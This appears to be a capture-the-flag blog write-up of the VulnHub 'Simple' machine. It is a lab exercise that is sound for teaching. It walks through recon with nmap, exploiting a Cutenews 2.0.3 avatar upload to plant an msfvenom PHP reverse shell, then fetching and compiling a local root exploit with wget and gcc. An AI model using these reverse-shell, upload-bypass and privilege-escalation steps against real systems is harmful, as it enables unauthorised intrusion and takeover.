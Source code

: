 ```yaml
---
layout: post
title: "SecTalks: BNE0x03 - Simple"
date: 2016-04-20 14:49:22 -0400
comments: true
categories:  [vulhub]
---
```


*May the LORD, my rock, be praised, who trains my hands for battle and my fingers for warfare.* ---- Psalm 144:1


From [Vulhub](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
Simple CTF is a boot2root that focuses on the basics of web based hacking. Once you load the VM, treat it as a machine you can see on the network, i.e. you don't have physical access to this machine. Therefore, tricks like editing the VM's BIOS or Grub configuration are not allowed. Only remote attacks are permitted. /root/flag.txt is your ultimate goal.

<!--more-->


###Forces:

* netdiscover
* Nmap
* Burp Suite
* Metasploit



###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ---Nmap
* Search the web app vulnerability	--- searchsploit
* Generate and upload webshell	---metasploit
* Get root

###Waging War

####Weaknesses and Strengths

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/simple_ctf1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.172 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.172 -p-`

{% img  /images/blog/vulhub/simple_ctf1/Selection_002.png   [title manually exploit [alt text]] %}

Only port 80 is opening. Lets use Iceweasel to view the page.

{% img  /images/blog/vulhub/simple_ctf1/Selection_003.png   [title manually exploit [alt text]] %}


I noticed that the web app is Cutenews 2.0.3. search the exploit:

`searchsploit cutenews`

find the interesting results:

{% img  /images/blog/vulhub/simple_ctf1/Selection_004.png   [title manually exploit [alt text]] %}

The exploit is as follow:

* Sign up for New User
* Log In 
* Go to Personal options http://www.target.com/cutenews/index.php?mod=main&opt=personal
* Select Upload Avatar Example: Evil.jpg
* use tamper data  & Rename File Evil.jpg to Evil.php

Okay, firstly, I creat a reverse php shell,

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.79.156 LPORT=1234 -a php --platform php -o evil.jpg`

Now, use Burp as proxy, go to Personal options http://192.168.79.172/cutenews/index.php?mod=main&opt=personal to upload evil.jpg

in the burp, change the evil.jgp to evil.php

{% img  /images/blog/vulhub/simple_ctf1/Selection_005.png   [title manually exploit [alt text]] %}


After that, Burp will recevied a GET request:

{% img  /images/blog/vulhub/simple_ctf1/Selection_006.png   [title manually exploit [alt text]] %}

set metasploit multi/handler.

now go to http://192.168.79.172/uploads/avatar_bob1bob2.php will get meterpreter reverse shell:

{% img  /images/blog/vulhub/simple_ctf1/Selection_007.png   [title manually exploit [alt text]] %}


However, I am not the root, search the os version:

{% img  /images/blog/vulhub/simple_ctf1/Selection_008.png   [title manually exploit [alt text]] %}

search the ubuntu 14.04

`searchsploit ubuntu 14.04` and we get the result:

{% img  /images/blog/vulhub/simple_ctf1/Selection_009.png   [title manually exploit [alt text]] %}

Move the file to /var/www/html/ and in reverse shell:

`wget http://192.168.79.156/37292.c -O hack.c`

compile it:

`gcc hack.c -o hack -static`, run it.

then use `python -c 'import pty; pty.spawn("/bin/bash")'` to get the shell.

{% img  /images/blog/vulhub/simple_ctf1/Selection_010.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/simple_ctf1/last.jpg  [title manually exploit [alt text]] %}